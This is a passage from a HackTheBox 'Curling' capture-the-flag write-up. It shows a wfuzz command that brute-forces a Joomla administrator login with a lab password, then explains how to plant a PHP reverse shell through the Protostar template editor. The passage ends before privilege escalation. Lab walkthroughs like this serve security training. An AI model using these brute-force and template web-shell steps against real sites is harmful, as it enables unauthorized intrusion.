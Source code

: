```
Cookie: c0548020854924e0aecd05ed9f5b672b=1j7421q4s8s4sugcmesf4k0h7a; 99fb082d992a92668ce87e5540bd20fa=3ing5m8njjt9daritdefr997fu
```

```
username=FUZZ&passwd=SENHA&option=com_login&task=login&return=aW5kZXgucGhw&e54846f868289414864167fa33d29a61=1
```

```SH
wfuzz -w cewl.lista -c --hc 200 -d 'username=FUZZ&passwd=Curling2018!&option=com_login&task=login&return=aW5kZXgucGhw&e54846f868289414864167fa33d29a61=1' -b '99fb082d992a92668ce87e5540bd20fa=3ing5m8njjt9daritdefr997fu' http://10.10.10.150/administrator/index.php
```

We found the login, that is `Floris`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2009:45:38.png)

# Joomla - RCE

Now we log in on the application

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2009:46:43.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2009:47:20.png)

Navigate to `Extension` - `Templates` - `Protostar` - `New File`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2009:48:44.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2009:48:55.png)

We upload a php reverse shell

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2009:51:30.png)

Remember to change the IP and Port on the script

Click in `New File`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2010:11:55.png)

Copy and Paster the reverse shell

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2010:10:34.png)

Now we get the reverse shell on the box

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2010:13:07.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-01-HackTheBox-Curling/2021-09-01-HackTheBox-Curling%2010:13:15.png)

Awesome.. Now let's try to automate it before the privilege escalation

